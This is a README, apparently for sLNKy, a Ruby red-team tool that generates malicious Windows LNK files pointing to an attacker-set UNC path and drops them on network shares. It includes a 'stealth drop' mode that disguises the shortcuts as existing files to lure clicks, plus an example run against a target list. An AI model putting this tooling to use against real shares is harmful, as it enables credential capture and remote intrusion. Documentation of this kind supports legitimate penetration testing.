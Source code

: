 	# get help for the generate command
	ruby sLNKy.rb help generate

#### Description

Generate a malicious LNK file with a user-defined UNC path.

### Drop

	# get help for the drop command
	ruby sLNKy.rb help generate

#### Description

Pass a list of target hosts, a name for the LNK file, an optional list of share names, and optional credentials to sLNKy and it will attempt to authenticate to each share and drop a LNK file using the specified name. It should handle failed authentication and write attempts gracefully.

### Stealth Drop (stealth_drop)

	# get help for the stealth_drop command
	ruby sLNKy.rb help stealth_drop

#### Description

This command introduces an element of social engineering. Technique performs the same as ```drop``` but sLNKy tries to sample files/directories present on the share and select one for the LNK file. This increases the likelihood of user actually clicking the shortcut. Point the shortcut to an exectuable file under control and, voila, shell. sLNKy doesn't update the path the LNK points to as of yet but it will in the near future.

# Examples

## Drop Example

### Contents of ```targets.txt```

	192.168.1.2
	192.168.1.3
	junk.hosts.stuff.com

### Execution

	archangel@aasana:sLNKy~> ruby sLNKy.rb drop -l testing -t targets.txt -u \\\\172.30.128.2\\test\\test.png
	                 __    _   ____ __     
	           _____/ /   / | / / //_/_  __
	          / ___/ /   /  |/ / ,< / / / /
	         (__  ) /___/ /|  / /| / /_/ / 
	        /____/_____/_/ |_/_/_|_\__,  /  
	         /___________________________/ 
